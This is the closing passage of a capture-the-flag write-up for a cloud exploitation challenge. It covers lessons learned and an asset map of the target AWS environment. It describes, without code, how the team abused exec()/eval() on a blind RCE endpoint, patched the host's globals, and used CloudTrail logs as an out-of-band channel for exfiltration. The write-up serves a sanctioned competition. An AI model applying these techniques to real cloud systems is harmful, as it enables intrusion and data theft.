Without our patch, the `_ad_json.dumps()` call raised a `NameError`, terminating the Lambda execution abruptly and returning the stack trace to the API. We transformed a broken diagnostic tool into our exfiltration vector.

---

## LESSONS LEARNED

1. **Read the FULL HTTP Response**: Initially, we had an automated script that just checked `if "Code executed successfully" in response.text`. Because of this, when the `ctf_out` object first appeared, our script truncated it and marked it as a standard success. Always log raw responses during CTFs.
2. **Beware the Rabbit Hole**: The `docs.html` leak and the laptop screen steganography were masterfully crafted red herrings. We wasted hours on the User-Agent hunt. If a path feels mathematically impossible (guessing a 64-char random UA), it probably is.
3. **Live CTF Infrastructure Changes**: The `_ad_json` error wasn't there at T+0. The organizers patched the challenge mid-flight, introducing a new vulnerability. Monitor for anomalies continuously. 
4. **Out-of-Band Channels are Invaluable**: When stdout is dead, look to logs, DNS, or timing. Using CloudTrail data events as an asynchronous exfiltration channel was a highly realistic cloud exploitation technique.
5. **Patching the Environment**: When exploiting `exec()` or `eval()` environments, you share memory with the host application. If the host application is broken, you have the power to fix it by injecting the missing dependencies into the global namespace.
6. **Oracles Rule the Blind**: Boolean binary search and timing oracles are slow, but they guarantee data extraction in completely blind environments. 

---

## TIMELINE



---

## APPENDIX: FULL ASSET MAP

| Asset Type | Identifier / ARN | Notes |
|------------|------------------|-------|
| AWS Account ID | `121774052880` | Target environment account. |
| IAM Role | `arn:aws:iam::121774052880:role/ctf_participant_role` | Our provided assumed role. |
| CloudFront | `d4ysu55xg7wfi.cloudfront.net` | Static narrative hosting. |
| API Gateway | `l8ssyaz69f.execute-api.us-east-1.amazonaws.com` | Blind RCE endpoint. |
| VPC Endpoint | `vpce-04104ef3d57a26557` | S3 Gateway Endpoint attached to Lambda subnet. |
| S3 Bucket | `arn:aws:s3:::userd8a2f72fe43094e8` | Primary target. Contained `flag.txt`. |
| S3 Bucket | `arn:aws:s3:::logd8a2f72fe43094e8` | Secondary target. CloudTrail logs used for OOB. |
| S3 Object | `arn:aws:s3:::userd8a2f72fe43094e8/flag.txt` | The final objective. |

<br><br>
<div align="center">
  <i>Agent freecandy - MAFAT Cloud Escape CTF 2026 - End of Report</i>
</div>
